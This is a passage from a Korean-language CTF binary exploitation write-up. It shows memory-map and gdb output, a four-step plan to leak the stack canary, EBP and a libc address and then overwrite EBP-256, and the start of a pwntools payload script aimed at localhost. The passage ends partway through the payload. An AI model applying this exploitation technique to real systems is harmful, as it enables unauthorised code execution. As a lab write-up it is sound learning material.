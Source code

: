 ```bash
f7fc0000-f7fc2000 r-xp 00000000 00:00 0                                  [vdso]
f7fc2000-f7fe8000 r-xp 00000000 08:01 417687                             /lib/i386-linux-gnu/ld-2.27.so
f7fe8000-f7fe9000 r--p 00025000 08:01 417687                             /lib/i386-linux-gnu/ld-2.27.so
f7fe9000-f7fea000 rw-p 00026000 08:01 417687                             /lib/i386-linux-gnu/ld-2.27.so
ffd99000-ffdba000 rw-p 00000000 00:00 0                                  [stack]
```

`maps`를 출력한 모습인데 보면 **f7dc8000-f7f9d000** 여기가 함수들의 위치입니다!

만약 **[sfp]**를 사용해서 근처에 해당 범위를 사용하는 부분을 찾아낸다면!

그 부분의 값을 쉘코드나 그런걸로 수정하면 문제가 풀릴거에요!

>gdb-peda$ find "0xf7" stack

이렇게 검색하니까 `0xf7`로 끝나는게 나오네요. `EBP`값이랑 비슷한 곳에서 일일이 바꿔서 찾아봤어요.

`[stack] : 0xffdb7d3c --> 0xf7ebc679 (<mprotect+25>: pop    ebx)`

더 있는지는 모르겠는데 이걸 찾았어요. `mprotect`는 `push`나 `pop`에서 사용하는 함수인데 다른 함수를 호출하거나 끝나서 리턴할 때 `push`, `pop`을 사용하니까 대충 맞는거 같네요.

`find`로 더 찾아보니까 `mprotect`가 하나 더 있는데 보다 떨어져있어요. 위에서 찾은건 `_main`이랑 `message`사이에서 사용하고 더 멀리있는건 `main`이랑 `_main`에서 사용하는게 아닐까 합니다.

쨋든 `EBP`랑 저 부분이랑은 `-256`만큼 차이납니다.

이제 공격 순서를 정리해보면

1. `canary`값 가져오기

2. `EBP`값 가져오기

3. 함수 주소 가져오기

4. `EBP-256`의 값 조작하기

이렇게 됩니다.

- - -
# 0x03. 페이로드 작성

```python
from pwn import *
#context.log_level = "debug"

HOST = "localhost"
PORT = 4444
s = remote(HOST, PORT)
pause()

############################################

printf_got = 0x08049FD4

############################################

def send(name, length, message):
    s.recv()
    s.send(name)
    s.recv()
    s.sendline(length)
    s.recv()
    s.send(message)

payload = "A"*33
```